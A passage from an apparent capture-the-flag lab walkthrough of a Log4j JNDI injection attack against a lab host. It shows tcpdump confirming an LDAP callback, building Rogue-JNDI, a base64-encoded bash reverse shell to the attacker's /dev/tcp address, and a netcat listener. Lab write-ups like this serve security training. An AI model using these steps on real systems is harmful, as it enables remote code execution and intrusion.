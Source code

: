 The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed. Let's start `tcpdump` on port 389, that will monitor the LDAP network traffic:

```sh
$ sudo tcpdump -i utun7 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on utun7, link-type NULL (BSD loopback), snapshot length 524288 bytes
20:54:54.535623 IP 10.129.96.149.42904 > 10.10.16.15.ldap: Flags [S], seq 3108192039, win 64240, options [mss 1335,sackOK,TS val 427599086 ecr 0,nop,wscale 7], length 0
20:54:54.535678 IP 10.10.16.15.ldap > 10.129.96.149.42904: Flags [R.], seq 0, ack 3108192040, win 0, length 0
```

The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389. Next we will install `Rogue-JNDI`, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.:

```sh
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

This will create a `.jar` file in `rogue-jndi/target/` directory called `RogueJndi-1.1.jar`. Now we can construct our payload to pass into the `RogueJndi-1-1.jar` Java application:

```sh
$ echo 'bash -c bash -i >&/dev/tcp/10.10.16.15/9001 0>&1' | base64 
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTUvOTAwMSAwPiYx
```

Next, we start `Rogue-JNDI`:

```sh
$ java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTUvOTAwMSAwPiYx}|{base64,-d}|{bash,-i}" --hostname "10.10.16.15"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.16.15:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.16.15:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.15:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.15:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.16.15:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.15:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.15:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.15:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
```

Now that the server is listening locally on port 389 , let's open another terminal and start a Netcat listener to capture the reverse shell.

```sh
nc -l 9001
``` 
